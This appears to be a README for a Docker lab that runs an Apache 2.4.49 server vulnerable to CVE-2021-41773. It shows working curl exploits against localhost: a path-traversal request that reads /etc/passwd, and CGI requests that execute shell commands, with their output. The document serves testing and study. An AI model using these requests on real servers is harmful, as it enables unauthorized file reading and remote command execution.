 CVE-2021-41773 Playground
===

This is a small Docker recipe for setting up a Debian bookworm based container with an instance of the Apache HTTPd (2.4.49) that is vulnerable to [CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773).

CGI has been explicitly enabled so it can be used to test/verify Local file Disclosure behavior as well as Remote Command Execution behavior.

Usage
===
```
$ docker-compose build && docker-compose-up
```

Local file disclosure
===
```
$ curl -s --path-as-is "http://localhost:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Remote Code Execution
===
```
$ curl -s --path-as-is -d 'echo Content-Type: text/plain; echo; id' "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/bin/sh"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

curl 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id' -vv 


